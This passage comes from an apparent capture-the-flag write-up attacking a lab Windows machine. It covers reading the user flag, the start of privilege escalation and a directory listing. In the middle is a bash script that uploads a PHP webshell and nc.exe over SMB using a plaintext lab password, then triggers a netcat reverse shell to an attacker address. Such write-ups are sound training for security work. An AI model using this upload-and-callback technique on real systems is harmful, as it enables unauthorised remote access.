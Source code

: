 
From here I can grab `user.txt`:

    
    
    C:\Users\tyler\Desktop>type user.txt
    6fa75569...
    

### Directory Clearing

The root directory of the share / webserver seems to be cleared out very
frequently, which could get annoying. I created a quick script to get a shell
callback:

    
    
    #!/bin/bash
    
    if [ "$#" -ne 2 ]; then
        echo "Usage: $0 [ip] [port]"
        echo "Include ip and port to connect back to"
        exit
    fi;
    
    ip=$1
    port=$2
    
    echo "[*] Uploading webshell and nc.exe"
    smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/php/cmd.php 0xdf.php' || (echo "[-] Upload php failed" && exit 1)
    smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/netcat/nc.exe nc.exe' || (echo "[-] Upload nc failed" && exit 1)
    echo "[+] Successfully uploaded webshell and nc.exe"
    
    echo "[*] Triggering nc shell callback to ${ip}:${port}"
    curl "http://10.10.10.97:8808/0xdf.php?cmd=nc.exe+-e+cmd.exe+${ip}+${port}"
    

## Privesc

### bash.exe

Enumerating the host, there’s a couple places that hint to look at the Linux
Subsystem. First, on the desktop right next to `user.txt` is a shortcut to
`bash`:

    
    
    C:\Users\tyler\Desktop>dir                                                                                                                                                                                          [54/290]
    dir                            
     Volume in drive C has no label.
     Volume Serial Number is 9CDD-BADA           
                                               
     Directory of C:\Users\tyler\Desktop                  
                                                    
    08/19/2018  02:51 PM    <DIR>          .         
    08/19/2018  02:51 PM    <DIR>          ..          
    06/22/2018  02:09 AM             1,293 bash.lnk                                                                 
    04/11/2018  03:34 PM             1,142 Command Prompt.lnk
    04/11/2018  03:34 PM               407 File Explorer.lnk
    06/21/2018  04:50 PM             1,417 Microsoft Edge.lnk
    06/21/2018  08:17 AM             1,110 Notepad++.lnk                                                                                   
    08/19/2018  08:25 AM                34 user.txt
    08/19/2018  09:59 AM             2,494 Windows PowerShell.lnk
                   7 File(s)          7,897 bytes
                   2 Dir(s)  33,220,325,376 bytes free
    